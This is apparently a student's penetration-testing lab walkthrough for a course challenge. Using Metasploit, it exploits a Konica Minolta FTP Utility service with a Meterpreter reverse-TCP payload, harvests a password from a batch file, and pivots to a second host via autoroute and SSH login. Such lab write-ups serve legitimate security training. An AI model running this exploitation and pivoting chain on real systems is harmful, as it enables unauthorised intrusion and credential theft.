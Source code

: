 # Assigment 1
For full executive report, see [PWNChallenge1_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/69735350464e7b4b88eede348b337de66701a3e0/pwnchallenge1/PWNChallenge1_GabriellaAhn.pdf).

## Step 1
1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    ``
    
    ``
    nmap -open 10.20.170.20-100
    ``

    10.20.160.41 host is found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.41.
   
    ``
    nmap -A 10.20.160.41
    ``
    
    Port 21 is an open port for FTP from version of Konica Minolta FTP Utility. 
    
3. Open Metasploit.

    ``
    msfconsole
    ``
    
4. Since we are going to use _Konica Minolta FTP Utility_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Konica
    ``
    
    ``
    use exploit/windows/ftp/kmftp_utility_cwd
    ``
   
5. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.41
    ``
    
    ``
    set RPORT 21
    ``
    
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
7. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``

8. In C:\Users\Fred\Desktop. there is SSH.bat which looks strange. Open the file.

    ``
    cat SSH.bat
    ``
    
    ![image](https://github.com/haein001/CMU_penetration-testing/assets/77334059/5c0d8d0e-f2cc-4c4c-ad79-2247619e3a0d)

9. Using this we are going to compromise the other host. In order to add route from present session, use autoroute.

- **autoroute:** is used to add routes associated with the specified Meterpreter session to Metasploit's routing table. These routes can be used to pivot to private networks and resources that can be accessed by the compromised machine.

    It will make my current session into background session.

    ``
    run autoroute -s 10.20.170.0
    ``
    
    ``
    run autoroute -p
    ``
    
    ``
    background
    ``
    
10. Search ssh_login, to use the information from the SSH.bat.

    ``
    search ssh_login
    ``
    
11. Set the basic information for the exploit.

    ``
    use auxiliary/scanner/ssh/ssh_login
    ``
    
    ``
    set USERNAME jill
    ``
    
    ``
    set PASSWORD JillIs100%Awesome
    ``
    
    ``
    set rhost 10.20.170.87
    ``
    
    ``
    exploit
    ``

12. After succesfully logging into the machine, check the session you are in and go to the new session that is created.

    ``
    sessions -i
    ``
    
    ``
    sessions -i (number of the session)
    ``
    
13.  Then, use linux command to search the proof.txt.

